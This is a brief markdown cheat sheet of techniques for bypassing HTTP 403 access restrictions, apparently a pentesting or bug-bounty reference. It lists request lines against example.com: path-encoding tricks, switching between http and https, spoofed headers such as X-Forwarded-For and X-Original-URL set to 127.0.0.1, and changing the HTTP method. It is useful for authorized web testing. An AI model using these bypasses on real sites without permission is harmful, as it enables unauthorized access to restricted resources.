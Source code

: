 # 403 Bypass Techniques

- If there is a directory like `/path` with no slash at the end, we can try the below things -

```bash
example.com/path -> 403
example.com/* -> 200
example.com/./path -> 200
example.com/%2e/path -> 200
```

- If we find a file path like `/file.txt` with no slash at the end, we can try below things -

```bash
example.com/file.txt -> 403
example.com/file.txt/ -> 200
example.com/%2f/file.txt/ -> 200
```

- Try changing protocol, from `https` to `http` and vice versa.

```bash
https://example.com -> 403
http://example.com -> 200
```

- Using headers in HTTP request

```bash
X-Forwarded-For: http://127.0.0.1:80
Content-length: 0
X-Rewrite-URL: http://127.0.0.1:80
X-Original-URL: http://127.0.0.1:80
X-Custom-IP-Authorization: 127.0.0.1:80
```

- By changing HTTP method:
    - GET → POST
    - GET → TRACE
    - GET → PUT
    - GET → OPTIONS